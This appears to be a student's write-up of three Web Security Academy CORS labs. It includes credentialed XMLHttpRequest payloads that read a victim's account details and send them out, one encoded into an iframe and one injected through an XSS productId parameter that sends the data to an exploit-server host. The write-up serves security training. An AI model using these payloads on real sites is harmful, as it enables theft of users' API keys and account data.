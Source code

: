 ## First Lab
I did everything as I was supposed to do, yet I could not get the API of admin. Nevertheless, I will attach the things I have done and I honestly don't know why exploit server did not return admin api. 

The script that I used:
  >
>
    <script>
        var req = new XMLHttpRequest();
        req.open("get","0a5800e0044edab38085d064001d00b8.web-security-academy.net/accountDetails",true);
        
        req.onload = () => {
            window.location.href = "/malicious?key=" + req.responseText;
        }
        
        req.withCredentials = true;
        req.send();
    </script>
![](lab1rep.png)
![](basicorigin.png)
## Second Lab
Second lab was almost the same as the first one, fortunately I got it working. The only difference was using an <iframe> tag and using the sandbox property to contain our malicious code in it, also we had to encode our script first, in order to avoid quotation collisions in a code. As a result, we got our api of admin, which we submitted in the home page of lab source page.
Source code: 
>                <iframe 
                    sandbox="allow-forms allow-scripts allow-top-navigation"
                    srcdoc="
                    &#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x62;&#x34;&#x30;&#x30;&#x39;&#x66;&#x30;&#x33;&#x65;&#x34;&#x33;&#x36;&#x61;&#x66;&#x38;&#x35;&#x64;&#x35;&#x32;&#x36;&#x34;&#x39;&#x30;&#x30;&#x37;&#x38;&#x30;&#x30;&#x62;&#x38;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x20;&#x3d;&#x3e;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x20;&#x3d;&#x20;&#x22;&#x2f;&#x6d;&#x61;&#x6c;&#x69;&#x63;&#x69;&#x6f;&#x75;&#x73;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"
                    ></iframe>

![](lab2decoder.png)
![](lab2info.png)
![](lab2solved.png)

## Third Lab
We did find the Xss vulnerability through product id injection and found CORS vulnerability by trying to find the filtered origin source and we also have achieved that. However, when it came down to injecting the encoded code as we did in a second lab, we did not obtain any results and same as in a first lab work, I do not know why. 
Source code(we encoded the script code for cors vulnerability into xss code injection, cause it is url): 
>     <script>
        window.location = "http://stock.0ad700780427e2f6914a1ca600540017.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%20%20%20%20%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%70%65%6e%28%22%67%65%74%22%2c%22%68%74%74%70%73%3a%2f%2f%30%61%64%37%30%30%37%38%30%34%32%37%65%32%66%36%39%31%34%61%31%63%61%36%30%30%35%34%30%30%31%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%28%29%20%3d%3e%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%20%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%30%30%30%65%64%30%34%65%36%65%32%66%63%39%31%64%38%31%62%34%36%30%31%30%38%30%30%35%36%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%73%65%6e%64%28%29%3b%0a%20%20%20%20%3c%2f%73%63%72%69%70%74%3e&storeId=1"
    </script>
![](lab3cors.png)
![](lab3xss.png)
![](lab3not.png)
![](corsfinished.png)
